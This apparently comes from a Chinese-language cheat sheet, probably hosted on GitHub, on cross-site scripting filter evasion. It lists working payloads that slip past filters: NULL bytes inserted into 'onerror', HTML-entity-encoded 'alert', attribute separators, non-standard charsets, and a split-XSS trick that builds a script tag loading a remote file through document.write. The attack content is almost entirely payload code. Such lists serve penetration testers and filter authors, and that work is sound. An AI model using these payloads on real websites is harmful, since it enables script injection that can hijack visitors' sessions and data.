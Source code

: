 **属性名称**

绕开一些检查以`on`开头的过滤器

```javascript
<img o[%00]nerror=alert(1) src=a>
```

属性分隔符,把多个属性分隔开

```javascript
<img onerror='alert(1)'src=a>
```

**属性值**

可以用NULL字节或HTML编码属性值

```javascript
<img onerror=a[%00]lert(1) src=a>
<img onerror=a&#x006c;ert(1) src=a>
```

> HTML编码 十六进制编码 base64编码 ASCII编码

以下属性可以被编码：

```javascript
href=
action=
formaction=
location=
on*=
name=
background=
poster=
src=
code=
data= //只支持base64
```

**字符集**

有时可用一些非标准编码绕开过滤器

UTF-7、US-ASCII、UTF-16

**拆分跨站：**

当应用程序没有过滤<、>关键字却限制了字符长度时可用拆分跨站

```javascript
<script>z='<script src=';/*

*/z+='test.c';/*

*/z+='n/1.js><0/script>';/*

*/document.write(z)</script>
```
